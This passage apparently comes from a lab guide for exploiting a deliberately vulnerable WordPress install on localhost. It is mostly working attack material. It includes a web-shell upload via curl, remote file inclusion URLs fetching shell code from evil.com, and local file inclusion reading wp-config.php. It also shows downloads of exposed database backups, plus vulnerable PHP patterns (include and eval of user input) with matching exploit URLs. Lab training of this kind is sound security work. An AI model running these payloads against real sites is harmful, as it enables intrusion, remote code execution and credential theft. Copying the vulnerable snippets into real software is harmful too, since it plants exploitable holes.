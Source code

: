 ```bash
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value>admin</value></param>
    <param><value>password123</value></param>
  </params>
</methodCall>'
```

### 4. Plugin Vulnerabilities

#### Contact Form 7 - File Upload
```bash
# Unrestricted file upload
curl -X POST http://localhost:8087/wp-content/plugins/contact-form-7/upload.php \
  -F "file=@shell.php"
```

#### TimThumb - RFI/LFI
```bash
# Remote file inclusion
http://localhost:8087/wp-content/themes/vulnerable/timthumb.php?src=http://evil.com/shell.php

# Local file inclusion
http://localhost:8087/wp-content/themes/vulnerable/timthumb.php?src=../../../../wp-config.php
```

#### Backup Plugins
```bash
# Find backup files
curl http://localhost:8087/wp-content/backups/
curl http://localhost:8087/wp-content/backup-db/
wget http://localhost:8087/backup.sql
wget http://localhost:8087/wp-content/database.sql
```

### 5. Theme Vulnerabilities

#### Arbitrary File Read
```php
// Vulnerable theme file
$file = $_GET['file'];
include($file);

// Exploit
http://localhost:8087/wp-content/themes/vulnerable/download.php?file=../../../../wp-config.php
```

#### Template Injection
```php
// Unsafe template rendering
eval('?>' . file_get_contents($_GET['template']));

// Exploit
http://localhost:8087/wp-content/themes/vulnerable/render.php?template=http://evil.com/shell.txt
```
